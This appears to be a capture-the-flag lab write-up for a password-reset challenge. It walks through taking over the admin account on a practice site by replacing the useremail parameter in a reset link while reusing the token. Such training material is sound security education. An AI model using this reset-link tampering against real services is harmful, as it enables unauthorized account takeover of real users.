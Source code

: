 # Challenge #1 - Password Reset 1- 4

## Credentials:
Username: atk
Password: atk

## Objectives

- All the http://*.pwdreset.site web applications implement different password reset mechanisms.
- Your job is to find a way to exploit these implementations in order to reset the password of any user you want.

## Hints

- Recommended tools
  - Web browser
  - Burp Suite

## Steps

With burp suite enable login the system. The welcome show a list of users as below.

```
Welcome atk

    Username: atk
    Password: atk
    Email: atk@atk.com 

List of users

Username: admin || Email: admin@pwdreset.site
Username: atk || Email: atk@atk.com
Username: darkenedjump || Email: Suspendisse.dui@nequeSedeget.net
Username: slipperyraspy || Email: sagittis@scelerisque.ca
```

Do logout, them click in reset password and them continue.

```
http://3.pwdreset.site/forgot.php
```

A message will appear saying that you have a email message, click on the link. You have one message with a link to reset the password.

```
From: admin@pwdreset.site Message:

Someone requested a password reset for the following account:
Username: atk

If this was a mistake, just ignore this email and nothing will happen.
To reset your password, visit the following address: http://3.pwdreset.site/reset_pwd.php?useremail=atk@atk.com&token=MmI4OTk4NjdhMTU 
```

Copy the link, change the useremail with one from the list on the first page and them sent to the browser.

```
http://3.pwdreset.site/reset_pwd.php?useremail=admin@pwdreset.site&token=MmI4OTk4NjdhMTU 
```

Set a new password for this user and them login using this new credentials.